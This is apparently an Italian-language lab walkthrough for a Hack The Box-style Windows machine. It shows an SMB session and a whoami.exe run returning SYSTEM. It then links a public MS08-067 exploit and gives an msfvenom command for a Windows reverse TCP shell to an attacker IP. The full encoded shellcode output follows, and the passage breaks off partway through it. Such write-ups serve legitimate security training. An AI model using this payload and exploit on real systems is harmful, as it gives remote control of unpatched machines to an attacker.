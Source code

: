 ```bash
                148529400 blocks of size 7680. 148529400 blocks available
smb: \>
```


Ora dalla macchina target eseguiamo whoami.exe
```cmd
C:\WINDOWS\system32>\\10.10.14.21\temp\whoami.exe
\\10.10.14.21\temp\whoami.exe
NT AUTHORITY\SYSTEM

C:\WINDOWS\system32>
```

## MS08-067

Dopo una breve ricerca troviamo il questo exploit,e lo copiamo
https://raw.githubusercontent.com/jivoi/pentest/master/exploit_win/ms08-067.py

Seguento le istruzioni creiamo il nostro payload con il seguente comando 

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.21 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
```

Prediamo l'output e lo sositiuimao con quello presente all'interno dell'exploit
```bash
┌──(root㉿kali)-[/home/kali/htb/legacy/MS08-67]
└─# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.21 LPORT=443 EXITFUNC=thread -b "\x00\x0a\x0d\x5c\x5f\x2f\x2e\x40" -f c -a x86 --platform windows
Found 12 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai failed with A valid opcode permutation could not be found.
Attempting to encode payload with 1 iterations of generic/none
generic/none failed with Encoding failed due to a bad character (index=3, char=0x00)
Attempting to encode payload with 1 iterations of x86/call4_dword_xor
x86/call4_dword_xor succeeded with size 348 (iteration=0)
x86/call4_dword_xor chosen with final size 348
Payload size: 348 bytes
Final size of c file: 1491 bytes
unsigned char buf[] = 
"\x31\xc9\x83\xe9\xaf\xe8\xff\xff\xff\xff\xc0\x5e\x81\x76"
"\x0e\xde\xe6\xf9\xe1\x83\xee\xfc\xe2\xf4\x22\x0e\x7b\xe1"
"\xde\xe6\x99\x68\x3b\xd7\x39\x85\x55\xb6\xc9\x6a\x8c\xea"
"\x72\xb3\xca\x6d\x8b\xc9\xd1\x51\xb3\xc7\xef\x19\x55\xdd"
"\xbf\x9a\xfb\xcd\xfe\x27\x36\xec\xdf\x21\x1b\x13\x8c\xb1"
"\x72\xb3\xce\x6d\xb3\xdd\x55\xaa\xe8\x99\x3d\xae\xf8\x30"
"\x8f\x6d\xa0\xc1\xdf\x35\x72\xa8\xc6\x05\xc3\xa8\x55\xd2"
"\x72\xe0\x08\xd7\x06\x4d\x1f\x29\xf4\xe0\x19\xde\x19\x94"
"\x28\xe5\x84\x19\xe5\x9b\xdd\x94\x3a\xbe\x72\xb9\xfa\xe7"
"\x2a\x87\x55\xea\xb2\x6a\x86\xfa\xf8\x32\x55\xe2\x72\xe0"
"\x0e\x6f\xbd\xc5\xfa\xbd\xa2\x80\x87\xbc\xa8\x1e\x3e\xb9"
"\xa6\xbb\x55\xf4\x12\x6c\x83\x8e\xca\xd3\xde\xe6\x91\x96"
"\xad\xd4\xa6\xb5\xb6\xaa\x8e\xc7\xd9\x19\x2c\x59\x4e\xe7"
"\xf9\xe1\xf7\x22\xad\xb1\xb6\xcf\x79\x8a\xde\x19\x2c\xb1"
"\x8e\xb6\xa9\xa1\x8e\xa6\xa9\x89\x34\xe9\x26\x01\x21\x33"
"\x6e\x8b\xdb\x8e\xf3\xeb\xd0\xf3\x91\xe3\xde\xe7\x42\x68"
"\x38\x8c\xe9\xb7\x89\x8e\x60\x44\xaa\x87\x06\x34\x5b\x26"
"\x8d\xed\x21\xa8\xf1\x94\x32\x8e\x09\x54\x7c\xb0\x06\x34"
"\xb6\x85\x94\x85\xde\x6f\x1a\xb6\x89\xb1\xc8\x17\xb4\xf4"
"\xa0\xb7\x3c\x1b\x9f\x26\x9a\xc2\xc5\xe0\xdf\x6b\xbd\xc5"
"\xce\x20\xf9\xa5\x8a\xb6\xaf\xb7\x88\xa0\xaf\xaf\x88\xb0"
"\xaa\xb7\xb6\x9f\x35\xde\x58\x19\x2c\x68\x3e\xa8\xaf\xa7"
"\x21\xd6\x91\xe9\x59\xfb\x99\x1e\x0b\x5d\x19\xfc\xf4\xec"
"\x91\x47\x4b\x5b\x64\x1e\x0b\xda\xff\x9d\xd4\x66\x02\x01"
```